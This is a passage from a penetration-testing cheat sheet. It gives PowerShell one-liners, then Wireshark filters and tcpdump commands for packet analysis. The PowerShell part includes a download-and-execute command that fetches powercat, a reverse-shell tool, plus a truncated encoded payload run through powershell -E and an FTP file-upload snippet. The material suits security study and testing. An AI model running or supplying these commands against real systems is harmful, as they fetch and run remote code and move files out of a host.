 **Load a remote PowerShell script using iex**
```PowerShell
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

**Execute an encoded stand-alone payload using PowerShell**
```PowerShell
powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHI...
```

**Upload a file to an FTP server**
```PowerShell
$ftpRequest = [System.Net.FtpWebRequest]::Create("ftp://<IP>:<PORT>/<FILE_TO_UPLOAD>"); $ftpRequest.Credentials = New-Object System.Net.NetworkCredential("<USERNAME>", "<PASSWORD>"); $ftpRequest.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile; $fileContents = [System.IO.File]::ReadAllBytes((Resolve-Path "<FILE_TO_UPLOAD>")); $ftpRequest.ContentLength = $fileContents.Length; $requestStream = $ftpRequest.GetRequestStream(); $requestStream.Write($fileContents, 0, $fileContents.Length); $requestStream.Close(); $response = $ftpRequest.GetResponse(); $response.Close()
```
- Change `<IP>`, `<PORT>`, `<FILE_TO_UPLOAD>`, `<USERNAME>`, `<PASSWORD>`


## WireShark

**Filters**
- `net 10.10.1.0/24`, capture traffic only on the `10.10.1.0/24` address range

**Display filters**
- `tcp.port == 21`, only display FTP data

**Misc operations**
- Follow TCP stream: `Right-click` > `Follow` > `TCP Stream`

- [Display Filter Reference](https://www.wireshark.org/docs/dfref/)
- [Wireshark User’s Guide](https://www.wireshark.org/docs/wsug_html_chunked/)


## Tcpdump

```
tcpdump -r packets.pcap                                                           Read packet capture
tcpdump -n -r packets.pcap | awk -F" " '{print $3}' | sort | uniq -c | head       Read and filter the packet capture;
                                                                                  -n option to skip DNS name lookups, -r to read from our packet capture file
                                                                                  awk to print the destination IP address and port, sort and uniq -c to sort and count the number of times the field appears in the capture, respectively, head to only display the first 10 lines of the output
tcpdump -n src host <IP> -r packets.pcap                                          Tcpdump filters; src host to output only source traffic
tcpdump -n dst host <IP> -r packets.pcap                                          Tcpdump filters; dst host to output only destination traffic
tcpdump -n port <PORT> -r packets.pcap                                            Tcpdump filters; filter by port number
tcpdump -nX -r packets.pcap                                                       -X to print packet data in both HEX and ASCII format
```
